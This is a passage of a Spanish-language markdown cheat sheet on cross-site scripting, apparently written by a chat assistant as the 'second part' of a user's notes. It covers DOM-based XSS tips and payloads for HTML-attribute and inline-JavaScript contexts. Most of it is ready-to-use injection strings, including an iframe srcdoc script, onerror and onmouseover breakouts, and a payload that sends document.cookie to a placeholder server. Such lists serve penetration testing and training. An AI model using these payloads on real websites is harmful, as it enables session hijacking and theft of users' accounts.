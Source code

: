 
**Uso de iframes y `srcdoc`**

```html
<iframe srcdoc="<script>alert(1)</script>"></iframe>
```

---

**Recomendación final**:  
En DOM-based XSS no basta con ver si el payload se refleja. Debes revisar si el código JavaScript en la página manipula tu entrada sin sanitizarla. Usa extensiones como **DOM Invader** (de Burp Suite) o inspecciona el JS manualmente con DevTools (F12 → pestaña "Sources").

Perfecto. Aquí tienes la **segunda parte** de tu cheat sheet `.md`, centrada en **contextos específicos de XSS** modernos: atributos, JavaScript inline, JSON, frameworks como React y Angular, y otros entornos comunes en aplicaciones actuales.

---

# XSS en Contextos Específicos

**XSS en atributos HTML**  
Cuando la inyección ocurre dentro del valor de un atributo como `src`, `href`, `title`, etc.

```html
"><img src=x onerror=alert(1)>
" onmouseover=alert(1) x="
javascript:alert(1)
````

**Tips:**

- Busca entradas dentro de atributos de etiquetas (`<a href="...">`, `<img src="...">`).
    
- Prueba romper el atributo con `"`, luego inyectar evento (`onerror`, `onmouseover`, etc.).
    

---

**XSS en JavaScript inline (contexto de script)**  
Cuando tu input aparece dentro de código JavaScript de la página.

```html
<script>var nombre = 'PAYLOAD';</script>
```

**Payloads adaptados:**

```javascript
';alert(1);// 
';document.location='https://tu-servidor.com?c='+document.cookie;//
"+alert(1)+"
```

**Tips:**

- Identifica si el input está entre comillas simples, dobles o sin comillas.
    
